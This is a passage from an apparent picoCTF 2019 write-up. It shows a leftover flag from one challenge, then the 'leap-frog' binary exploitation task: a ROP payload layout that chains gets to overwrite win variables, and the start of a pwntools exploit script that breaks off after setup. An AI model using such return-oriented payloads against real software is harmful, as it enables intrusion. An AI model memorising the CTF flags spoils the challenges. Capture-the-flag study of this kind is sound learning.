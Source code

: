 ```python
  if 'pico' in data:
    print data
    exit()

```

flag: `picoCTF{cAnAr135_mU5t_b3_r4nd0m!_bf34cd22}`

# leap-frog

## Problem

Can you jump your way to win in the following program and get the flag? You can find the program in /problems/leap-frog_1_2944cde4843abb6dfd6afa31b00c703c on the shell server? Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/leap-frog/rop)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/leap-frog/rop.c)

## Solution

This is a classic [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) challenge. But instead of going through all the hoops as intended, we can set all `win*` variables to 1 by calling gets with a payload that looks like this:

- padding
- gets_plt <- first function to call
- flag_addr <- second function to call
- win_addr <- the buffer parameter being passed to gets

Exploit script:

```python
from pwn import *
import sys
import subprocess

argv = sys.argv

DEBUG = True
BINARY = './rop'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'error'


def start():
  global sh
  if len(argv) < 2:
    stdout = process.PTY
    stdin = process.PTY

    sh = process(BINARY, stdout=stdout, stdin=stdin)

    if DEBUG:
      attach_gdb()

```